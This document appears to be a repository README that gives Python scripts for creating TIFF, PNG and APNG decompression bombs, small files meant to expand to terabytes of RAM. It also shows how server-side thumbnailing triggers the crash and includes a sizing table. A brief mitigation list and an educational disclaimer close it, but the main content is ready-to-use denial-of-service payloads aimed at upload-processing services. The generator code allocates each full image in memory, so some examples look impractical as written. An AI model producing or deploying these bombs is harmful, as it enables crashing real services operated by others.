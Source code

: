 
# 🧨 Image Decompression Bombs in Python

This repository demonstrates how to create **image decompression bombs** using Python in formats:
- TIFF
- PNG
- APNG (Animated PNG)

These bombs are designed to be **tiny on disk** but expand to consume **massive RAM** (up to 2TB+) when opened, often causing memory exhaustion or crashes in image-processing systems.

> ⚠️ **For educational and research purposes only!** Do not deploy these files in production or upload to services without explicit permission.

---

## 📦 How It Works

Image formats like PNG and TIFF use lossless compression. You can craft images that look small (e.g., 1MB), but when decompressed occupy hundreds of GBs or more in memory.

### ✅ Strategy:
- Use solid-color pixels (e.g., white)
- Extreme resolution (e.g., 855,000×855,000)
- Save with maximum compression (`compress_level=9`, `tiff_deflate`)
- Optional: Use formats with multiple frames (e.g., APNG)

---

## 🧰 Requirements

Install dependencies:

```bash
pip install pillow apng
```

---

## 💣 Create a 2TB TIFF Bomb

```python
from PIL import Image, TiffImagePlugin

width = height = 855000
img = Image.new('RGB', (width, height), color='white')

img.save(
    'tiff_bomb_2tb.tiff',
    compression='tiff_deflate',
    tiffinfo={TiffImagePlugin.STRIPOFFSETS: (1,)}
)
```

---

## 💣 Create a 2TB PNG Bomb

```python
from PIL import Image

width = height = 855000
img = Image.new('RGB', (width, height), color='white')
img.save('png_bomb_2tb.png', compress_level=9)
```

---

## 🌀 Create an APNG Bomb (Multi-frame)

```python
from apng import APNG
from PIL import Image
import os

frames = 10
width = height = 150000
frame_paths = []

for i in range(frames):
    frame = Image.new('RGB', (width, height), color='white')
    path = f'frame_{i}.png'
    frame.save(path, compress_level=9, optimize=True)
    frame_paths.append(path)

apng = APNG()
for path in frame_paths:
    apng.append_file(path, delay=100)
apng.save("apng_bomb.png")

for path in frame_paths:
    os.remove(path)
```

---

## 🧪 Auto-Decompression (Server-Side Trigger)

Servers that auto-process uploads (e.g., preview thumbnails, resizing) will often **trigger decompression automatically**, leading to crash:

```python
from PIL import Image

img = Image.open("png_bomb_2tb.png")
img.load()
```

---

## 📊 Safe Size Reference Table

| RAM Target | Approx Dimensions | Uncompressed RAM |
|------------|-------------------|------------------|
| 100MB      | 5912 x 5912       | 0.10 GB          |
| 200MB      | 8360 x 8360       | 0.20 GB          |
| 400MB      | 11824 x 11824     | 0.39 GB          |
| 800MB      | 16721 x 16721     | 0.78 GB          |
| 1.6GB      | 23930 x 23930     | 1.60 GB          |
| 3.2GB      | 33839 x 33839     | 3.20 GB          |
| 6.4GB      | 47871 x 47871     | 6.40 GB          |
| 12.8GB     | 67679 x 67679     | 12.80 GB         |
| 25.6GB     | 95700 x 95700     | 25.60 GB         |
| 51.2GB     | 135402 x 135402   | 51.20 GB         |
| 96.0GB     | 180598 x 180598   | 96.00 GB         |
| 1.0TB+     | 605396 x 605396   | ~1.0 TB          |
| 2.0TB+     | 855000 x 855000   | ~2.0 TB          |

---

## 🔒 Mitigation Strategies

- Check resolution: `if img.width * img.height > X`
- Limit file uploads by pixel count
- Open files in sandboxed environments
- Disable thumbnail generation for untrusted images

---

## 🧠 Educational Use Only

These examples are meant to raise awareness of hidden attack vectors in media processing. Use responsibly.
Pablo Guide / Pablo Rotem / פבלו רותם

---

## 📄 License

MIT License
